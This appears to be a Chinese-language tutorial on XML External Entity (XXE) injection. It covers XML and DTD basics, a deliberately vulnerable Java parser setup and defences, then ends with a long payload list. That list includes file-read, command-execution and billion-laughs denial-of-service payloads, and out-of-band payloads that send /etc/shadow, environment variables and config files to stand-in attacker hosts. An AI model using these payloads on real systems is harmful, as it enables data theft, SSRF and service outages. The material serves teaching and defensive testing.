

## 简介
`XXE（XML External Entity Injection）`全称`XML外部实体注入漏洞`，既然是注入，说明也是执行了我们的恶意代码。
它产生的原因是：**应用程序在解析XML内容时，没有禁止外部实体的加载，导致可加载恶意外部文件**；因此如果XML内容可控，那么就可造成

1. 文件读取
2. 命令执行（难）
3. 内网端口扫描
4. 攻击内网网站
5. 发起dos攻击等危害。


## XML基础
既然漏洞是由于解析XML引起的，那么不了解一下XML怎么行呢？
XML和HTML长得有点类似，都是基于标签的格式，但是HTML被设计用来显示数据，XML则被设计用来传输和存储数据
### XML语法

- XML 声明文件的可选部分，如果存在需要放在文档的第一行


```xml
<?xml version="1.0" encoding="UTF-8" ?>
```

- XML 必须包含根元素，它是所有其他元素的父元素，比如下面的`userInfo`元素


```xml
<userInfo>
    <name>aaron</name>
    <age>18</age>
</userInfo>
```

- 所有的 XML 元素都必须有一个关闭标签


```xml
<p>paragraph</p> <!-- 后面的 </p> 不能省略 -->
```

- XML 标签对大小写敏感。标签 `<Letter>` 与标签 `<letter>` 是不同的，必须使用相同的大小写来编写打开标签和关闭标签
- 所有元素都**必须**彼此正确地嵌套


```xml
<b><p>This text is bold and italic</b></p> <!-- 错误 -->
<p><i>This text is bold and italic</i></p> <!-- 正确 -->
```

- 属性都必须添加双引号，这点和HTML类似


```xml
<p attr="加双引号">aa</p>
```

- XML注释和HTML一样


```xml
<!-- 我是注释 -->
```
### XML DTD
#### DTD简介
`XML DTD(Document Type Definition)文档类型定义`的作用是定义 XML 文档的合法构建模块，它使用一系列合法的元素来**定义文档的结构**。

- 内部`DOCTYPE`声明


```xml-dtd
<!-- 语法 -->
  <!DOCTYPE root-element [element-declarations]>
```
```xml-dtd
<?xml version="1.0" encoding="UTF-8" ?>
  <!DOCTYPE userInfo [
          <!ELEMENT userInfo (name,age)>
          <!ELEMENT name (#PCDATA)>
          <!ELEMENT age (#PCDATA)>
          ]>
  
  <userInfo>
      <name>d4m1ts</name>
      <age>18</age>
  </userInfo>
```

   - 以上 DTD 解释如下：
      - `!DOCTYPE userInfo` (第二行)定义此文档是 **userInfo** 类型的文档。
      - `!ELEMENT userInfo` (第三行)定义 **userInfo** 元素有两个元素："name、age"
      - `!ELEMENT name` (第四行)定义 **name** 元素为 "#PCDATA" 类型
      - `PCDATA` 是会被解析器解析的文本，这些文本将被解析器检查实体以及标记，文本中的标签会被当作标记来处理，而实体会被展开
      - `CDATA` 是不会被解析器解析的文本。在这些文本中的标签不会被当作标记来对待，其中的实体也不会被展开。
- 外部`DOCTYPE`声明


```
<!DOCTYPE root-element SYSTEM "filename">
```
```xml-dtd
<!-- XML文件 -->
  <?xml version="1.0"?>
  <!DOCTYPE note SYSTEM "note.dtd">
  <note>
    <to>Tove</to>
    <from>Jani</from>
    <heading>Reminder</heading>
    <body>Don't forget me this weekend!</body>
  </note>
```
```xml-dtd
<!-- 包含 DTD 的 "note.dtd" 文件 -->
  <!ELEMENT note (to,from,heading,body)>
  <!ELEMENT to (#PCDATA)>
  <!ELEMENT from (#PCDATA)>
  <!ELEMENT heading (#PCDATA)>
  <!ELEMENT body (#PCDATA)>
```


---

在XML中，有5个预定义的实体引用，这是为了防止在解析的时候，给我们输入的`<`当成标签来处理，导致异常

| 实体引用 | 字符 |
| --- | --- |
| `&lt;` | < |
| `&gt;` | > |
| `&amp;` | & |
| `&quot;` | " |
| `&apos;` | ' |

举例
```xml
<message>if salary &lt; 1000 then</message>
```
#### DTD实体
实体是用于**定义引用普通文本或特殊字符的快捷方式的**`**变量**`。

- 一个内部实体声明


```xml-dtd
<!-- 语法 -->
  <!ENTITY entity-name "entity-value">
```
```xml-dtd
<?xml version="1.0" encoding="UTF-8" ?>
  <!DOCTYPE userInfo [
          <!ELEMENT userInfo (name,age)>
          <!ELEMENT name (#PCDATA)>
          <!ELEMENT age (#PCDATA)>
          <!ENTITY name "d4m1ts">
          ]>
  
  <userInfo>
      <name>&name;</name>
      <age>18</age>
  </userInfo>
```

- 一个外部实体声明


```xml-dtd
<!-- 语法 -->
<!ENTITY entity-name SYSTEM "URI/URL">
```
```xml-dtd
<!-- 不要求后缀一定是dtd，只要符合dtd文件格式即可 -->
<!ENTITY name SYSTEM "http://baidu.com/test.dtd">
```
## 漏洞环境搭建
服务器解析XML出现问题，那漏洞环境就写一个可以解析XML内容的代码即可。这里我用Java中的`SAXReader`这个类的`read()`方法来触发

- 依赖


```xml
<!-- https://mvnrepository.com/artifact/org.dom4j/dom4j -->
        <dependency>
            <groupId>org.dom4j</groupId>
            <artifactId>dom4j</artifactId>
            <version>2.1.1</version>
        </dependency>
```

- 漏洞代码


```java
import org.dom4j.Document;
import org.dom4j.DocumentException;
import org.dom4j.Element;
import org.dom4j.io.SAXReader;
import java.io.File;
public class Main {
    public static void main(String[] args) throws DocumentException {
        SAXReader saxReader = new SAXReader();
        Document document = saxReader.read(new File("src/main/resources/test.xml"));
        Element rootElement = document.getRootElement();
        System.out.println(rootElement.element("name").getData());
    }
}
```

- test.xml


```xml-dtd
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE userInfo [
        <!ELEMENT userInfo (name)>
        <!ELEMENT name (#PCDATA)>
        <!ENTITY name "d4m1ts">
        ]>
<userInfo>
    <name>&name;</name>
</userInfo>
```
后续只需要修改`test.xml`中的内容即可
## XXE基础利用
在上面加载外部实体声明的时候，可以注意到它的语法
```
<!ENTITY entity-name SYSTEM "URI/URL">
```
可以从一个URL加载DTD，当然按照非正常的思维，允许输入URL也就相当于允许输入其他类似`http`的协议的链接，比如`file`、`ftp`这些，那这里岂不是至少就可能存在2个漏洞了

1. SSRF
2. 任意文件读取

各语言支持的协议如下：

| LIBXML2 | PHP | JAVA | .NET |
| --- | --- | --- | --- |
| file | file | http | file |
| http | http | https | http |
| ftp | ftp | ftp | https |
|  | php | file | ftp |
|  | compress.zlib | jar |  |
|  | compress.bzip2 | netdoc |  |
|  | data | mailto |  |
|  | glob | gopher * |  |
|  | phar |  |  |

这里只介绍基础的带回显的利用方法，不带回显的可以参考下面的Payload
### 读取文件
读取`/etc/passwd`，这个明显是给`file///etc/passwd`的值赋值给`name`
```xml-dtd
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE userInfo [
        <!ELEMENT userInfo (name)>
        <!ELEMENT name (#PCDATA)>
        <!ENTITY name SYSTEM "file:///etc/passwd">
        ]>
<userInfo>
    <name>&name;</name>
</userInfo>
```
### SSRF
简单的发起http请求，根据结果具体情况具体分析
```xml-dtd
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE userInfo [
        <!ELEMENT userInfo (name)>
        <!ELEMENT name (#PCDATA)>
        <!ENTITY name SYSTEM "http://baidu.aaaa">
        ]>
<userInfo>
    <name>&name;</name>
</userInfo>
```
### 执行系统命令
比较鸡肋，比较难利用，要在安装`expect`扩展的`PHP环境`里执行系统命令，其他协议也有可能吧
```xml-dtd
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "expect://id" >]>
<root>
<name>&xxe;</name>
</root>
```
### 拒绝服务攻击
递归引用，lol 实体具体还有 “lol” 字符串，然后一个 lol2 实体引用了 10 次 lol 实体，一个 lol3 实体引用了 10 次 lol2 实体，此时一个 lol3 实体就含有 10^2 个 “lol” 了，以此类推，lol9 实体含有 10^8 个 “lol” 字符串,最后再引用lol9。
```xml-dtd
<?xml version="1.0"?>
   <!DOCTYPE lolz [
<!ENTITY lol "lol">
<!ENTITY lol2 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
<!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
<!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
<!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
<!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
<!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
<!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
<!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
```
## XInclude攻击
一些情况下，我们可能无法控制整个XML文档，也就无法完全XXE，但是我们可以控制其中一部分，这个时候就可以使用`XInclude`
`XInclude`是XML规范的一部分，它允许从子文档构建XML文档。可以在XML文档中的任何数据值中放置`XInclude Payload`
要执行`XInclude`攻击，需要引用`XInclude`命名空间并提供要包含的文件的路径。例如：
```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```
## 哪些地方可能存在XXE

1. 允许上传XML文件的地方
2. 允许上传Excel、Word、SVG等文件的地方（因为这些文件本质也是XML）
3. 请求中`Content-Type`允许为`application/xml`的数据包(可以手动修改，比如将`application/json`中的`json`直接修改为`xml`)
4. ...

总而言之一句话：**所有能传能解析XML数据给服务端的地方，都可能存在XXE。**
## 防御
1、使用开发语言提供的禁用外部实体的方法
不同的类可能设置方法也不一样，具体情况具体分析。
php:
```php
libxml_disable_entity_loader(true);
```
java:
```java
SAXReader saxReader = new SAXReader();
saxReader.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
```
Python:
```python
from lxml import etree
xmlData = etree.parse(xmlSource,etree.XMLParser(resolve_entities=False))
```
2、过滤用户提交的XML数据
过滤关键字：`<\!DOCTYPE`和`<\!ENTITY`，或者`SYSTEM`和`PUBLIC`。
3、不允许XML中含有自己定义的DTD
## Payload
### Basic
#### Basic XML Example
```xml
<!--?xml version="1.0" ?-->
<userInfo>
 <firstName>John</firstName>
 <lastName>Doe</lastName>
</userInfo>
```
#### Entity Example
```xml-dtd
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY example "Doe"> ]>
 <userInfo>
  <firstName>John</firstName>
  <lastName>&example;</lastName>
 </userInfo>
```
### Inband Injection
#### Extract data from the server
```xml-dtd
<?xml version="1.0"?>
<!DOCTYPE data [
<!ELEMENT data (#ANY)>
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<data>&file;</data>
```
```xml-dtd
<?xml version="1.0" encoding="ISO-8859-1"?>
  <!DOCTYPE foo [  
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]><foo>&xxe;</foo>
```
```xml-dtd
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [  
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///c:/boot.ini" >]><foo>&xxe;</foo>
```
#### XXE Base64 encoded
```xml-dtd
<!DOCTYPE test [
    <!ENTITY % init SYSTEM "data://text/plain;base64,ZmlsZTovLy9ldGMvcGFzc3dk"> 
    %init;
    ]>
<foo/>
```
#### PHP Wrapper inside XXE
```xml-dtd
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<contacts>
  <contact>
    <name>Jean &xxe; Dupont</name>
    <phone>00 11 22 33 44</phone>
    <adress>42 rue du CTF</adress>
    <zipcode>75000</zipcode>
    <city>Paris</city>
  </contact>
</contacts>
```
```xml-dtd
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY % xxe SYSTEM "php://filter/convert.base64-encode/resource=http://attacker.com/file.php" >
]>
<foo>&xxe;</foo>
```
### OOB Injection
#### Vanilla, used to verify outbound xxe or blind xxe
```xml-dtd
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY sp SYSTEM "http://x.x.x.x:443/test.txt">
]>
<r>&sp;</r>
```
#### OOB extraction1
```xml-dtd
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://x.x.x.x:443/ev.xml">
%sp;
%param1;
]>
<r>&exfil;</r>
```

- 外部实体


```xml-dtd
<!ENTITY % data SYSTEM "file:///c:/windows/win.ini">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://x.x.x.x:443/?%data;'>">
```
#### OOB variation of above (seems to work better against .NET)
```xml-dtd
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://x.x.x.x:443/ev.xml">
%sp;
%param1;
%exfil;
]>
```

- 外部实体


```xml-dtd
<!ENTITY % data SYSTEM "file:///c:/windows/win.ini">
<!ENTITY % param1 "<!ENTITY &#x25; exfil SYSTEM 'http://x.x.x.x:443/?%data;'>">
```
#### OOB extraction2
```xml-dtd
<?xml version="1.0"?>
<!DOCTYPE r [
<!ENTITY % data3 SYSTEM "file:///etc/shadow">
<!ENTITY % sp SYSTEM "http://EvilHost:port/sp.dtd">
%sp;
%param3;
%exfil;
]>
```

- External dtd


```xml-dtd
<!ENTITY % param3 "<!ENTITY &#x25; exfil SYSTEM 'ftp://Evilhost:port/%data3;'>">
```
#### OOB extra ERROR -- Java
```xml-dtd
<?xml version="1.0"?>
<!DOCTYPE r [
<!ENTITY % data3 SYSTEM "file:///etc/passwd">
<!ENTITY % sp SYSTEM "http://x.x.x.x:8080/ss5.dtd">
%sp;
%param3;
%exfil;
]>
<r></r>
```

- External dtd


```xml-dtd
<!ENTITY % param1 '<!ENTITY &#x25; external SYSTEM "file:///nothere/%payload;">'> %param1; %external;
```
#### OoB XXE Base64 -- PHP
```xml-dtd
<!DOCTYPE convert [
<!ENTITY % remote SYSTEM "http://xx.xx.xx.xx:8080/config.dtd">
%remote;%int;%send;
]>
<!-- config.dtd的内容 -->
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///flag">
<!ENTITY % int "<!ENTITY &#37; send SYSTEM 'http://xx.xx.xx.xx:8080/index.php?flag=%file;'>">
```
#### OOB extra nice
```xml-dtd
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE root [
 <!ENTITY % start "<![CDATA[">
 <!ENTITY % stuff SYSTEM "file:///usr/local/tomcat/webapps/customapp/WEB-INF/applicationContext.xml ">
<!ENTITY % end "]]>">
<!ENTITY % dtd SYSTEM "http://evil/evil.xml">
%dtd;
]>
<root>&all;</root>
```

- External dtd


```xml-dtd
<!ENTITY all "%start;%stuff;%end;">
```
#### File-not-found exception based extraction
```xml-dtd
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [  
  <!ENTITY % one SYSTEM "http://attacker.tld/dtd-part" >
  %one;
  %two;
  %four;
]>
```

- External dtd


```xml-dtd
<!ENTITY % three SYSTEM "file:///etc/passwd">
<!ENTITY % two "<!ENTITY % four SYSTEM 'file:///%three;'>">
<!-- you might need to encode this % (depends on your target) as: &#x25; -->
```
#### FTP
```xml-dtd
<?xml version="1.0" ?>
<!DOCTYPE a [ 
<!ENTITY % asd SYSTEM "http://x.x.x.x:4444/ext.dtd">
%asd;
%c;
]>
<a>&rrr;</a>
```

- External dtd


```xml-dtd
<!ENTITY % d SYSTEM "file:///proc/self/environ">
<!ENTITY % c "<!ENTITY rrr SYSTEM 'ftp://x.x.x.x:2121/%d;'>">
```
#### Inside SOAP body
```xml-dtd
<soap:Body>
  <foo>
    <![CDATA[<!DOCTYPE doc [<!ENTITY % dtd SYSTEM "http://x.x.x.x:22/"> %dtd;]><xxx/>]]>
  </foo>
</soap:Body>
```
#### XXE inside SVG
```html
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1" height="200">
    <image xlink:href="expect://ls"></image>
</svg>
```
#### Untested - WAF Bypass
```xml-dtd
<!DOCTYPE :. SYTEM "http://"
<!DOCTYPE :_-_: SYTEM "http://"
<!DOCTYPE {0xdfbf} SYSTEM "http://"
```
### DOS
#### 包括一个随机的文件
```xml-dtd
<!ENTITY xxe SYSTEM "file:///dev/random" >]>
```
#### Billion Laugh Attack - Denial Of Service
```xml-dtd
<!--?xml version="1.0" ?-->
<!DOCTYPE lolz [<!ENTITY lol "lol"><!ELEMENT lolz (#PCDATA)>
<!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;
<!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
<!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
<!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
<!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
<!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
<!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
<!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
<!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
<tag>&lol9;</tag>
```
## 参考文章

- [从XML相关一步一步到XXE漏洞](https://xz.aliyun.com/t/6887)
- [xxe](https://portswigger.net/web-security/xxe)
- [XML External Entity (XXE) Injection Payload List](https://github.com/payloadbox/xxe-injection-payload-list)
- [XXE_payloads](https://gist.github.com/staaldraad/01415b990939494879b4)
